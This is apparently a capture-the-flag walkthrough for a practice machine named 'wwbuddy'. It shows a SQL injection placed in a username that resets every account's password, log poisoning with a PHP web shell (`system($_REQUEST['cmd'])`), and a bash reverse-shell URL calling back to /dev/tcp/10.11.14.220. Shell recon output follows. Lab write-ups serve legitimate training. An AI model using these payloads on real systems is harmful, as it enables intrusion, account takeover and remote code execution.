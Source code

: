 I try to inject `' or 1=1 -- -` in different form but didnt fine anything. after I poking around for a while, I found out that I can change username and password. So my idea was change username to `' or 1=1 -- -` then visit the `/change/` and change the password. sine the user name is `' or 1=1 -- -` it will fool the webpage and change all user's password on the website, include *wwwbudy* and *roberto*

so let do it and log out from current user, now try to login as *roberto* using the password we reseted too.


Boom it works !! note that there is one more user that we didnt know about. *henry*. After reading the conversation between Roberto and Henry you will know:
- ssh defualt password is **employee birthday** 
  - roberto 04/14/1995, he changed his password 04141995
  - henry Birthday:12/12/1212
- they talking about hiring a new girl

I then log into with *henry*. he is only person who can visit to `/admin`
```
Hey Henry, i didn't made the admin functions for this page yet, but at least you can see who's trying to sniff into our site here.
```
I try to ssh to the server using henry birthday which is a fake birthday lol, he born 1212 but anyway it is worth trying.. it didnt works tho. Tho check if `/admin` is a .php, I visit `/admin/index.php` and it is what I think

So the plan is do log posioning by insert a php code to `/admin/acess.log`. the malicouse code will be execute that in `/admin/index.php` when we visit it using henry account. 

let prove/check that this plan works, we log out from henry and create dummy account with username `<?php echo "kurohat was here\n"; ?>`. now log in to the dummy accout and visit `/admin/` yes it wouldnt works but the username is now saved in `acess.log`. logout and log into the web using *henry* credential, now visit `/admin`
```
 10.11.14.220 2020-09-13 21:30:37 kurohat was here addafe671bc235593d17a324fe317d2a 
```
bing go, it works !! now let craft a good payload such as `<?php system($_REQUEST['cmd']); ?>`. Repeat the same process as before but using `<?php system($_REQUEST['cmd']); ?>` as username instead. now visit `/admin/index.php?cmd=whoami`
```
 10.11.14.220 2020-09-13 21:35:06 www-data addafe671bc235593d17a324fe317d2a 
```
seem like we are www-data user
# foothold
let get reverse shell by visit `/admin/index.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.11.14.220/6969+0%3E%261%27`. now recon
```console
www-data@wwbuddy:/var/www/html$ ls /home
ls /home
jenny
roberto
wwbuddy
www-data@wwbuddy:/var/www/html$ ls /home/wwbuddy
ls /home/wwbuddy
ls: cannot open directory '/home/wwbuddy': Permission denied
www-data@wwbuddy:/var/www/html$ ls /home/roberto
ls /home/roberto
ls: cannot open directory '/home/roberto': Permission denied
www-data@wwbuddy:/var/www/html$ ls /home/jenny
ls /home/jenny
ls: cannot open directory '/home/jenny': Permission denied
www-data@wwbuddy:/var/www/html$ ls
```
3 users and we cannot access it with *www-data*
